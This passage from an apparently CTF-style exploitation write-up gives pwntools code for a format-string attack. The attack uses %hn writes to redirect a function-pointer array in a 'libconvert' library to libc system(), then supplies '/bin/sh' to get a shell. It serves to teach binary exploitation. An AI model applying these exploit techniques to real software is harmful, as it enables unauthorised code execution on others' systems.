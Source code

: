 The offset for the first address is 18. Let's finish our payload:

```python
payload = f'%{part1}c%18$hn'.encode()
payload += f'%{part2 - (part1 & 0xffff)}c%19$hn'.encode()
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
```

And the full script for this stage is:

```python
part1 = (libc.sym['system'] >> 0) & 0xffff
part2 = (libc.sym['system'] >> 16) & 0xffff
if part2<(part1 & 0xffff):
    part2 |= 0x10000

# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = f'%{part1}c%18$hn'.encode()
payload += f'%{part2 - (part1 & 0xffff)}c%19$hn'.encode()
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
payload += p32(-22, sign=True)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))

# Execute convert
p.sendlineafter(b'6. Exit\n', b'2')
```

Executing that and we overwrite array `functions` of option 1 from `base64_encode()` into `system()`. Let's finish our exploit!

### Stage 4: Get shell

All we need is simple now, just clear the string first and append new string is `/bin/sh`:

```python
# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = b'/bin/sh\0'
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload)
```
